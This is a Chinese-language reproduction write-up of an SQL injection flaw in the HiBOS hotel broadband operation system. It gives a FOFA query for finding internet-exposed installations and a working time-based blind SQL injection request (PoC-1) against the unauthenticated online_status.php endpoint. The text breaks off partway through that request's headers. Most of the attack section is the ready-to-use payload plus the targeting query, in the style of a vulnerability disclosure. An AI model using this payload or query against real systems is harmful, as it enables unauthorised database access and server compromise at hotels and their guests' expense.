

# 安美数字酒店宽带运营系统 SQL注入漏洞复现

### 0x01 产品简介

HiBOS酒店宽带运营系统隶属于安美世纪（北京）科技有限公司开发的一套酒店宽带管理系统。

### 0x02 漏洞概述

 安美数字酒店宽带运营系统 online\_status.php、language.php等接口处存在SQL注入漏洞，未经身份认证的攻击者可以通过此漏洞获取数据库权限，进一步利用可导致服务器失陷。

### 0x03 复现环境

FOFA：app="安美数字-酒店宽带运营系统"



### 0x04 漏洞复现 

**PoC-1**

```cobol
GET /manager/frontdesk/online_status.php?AccountID=1%27+AND+%28SELECT+6097+FROM+%28SELECT%28SLEEP%285%29%29%29ClPT%29--+lMyr HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Conn
```
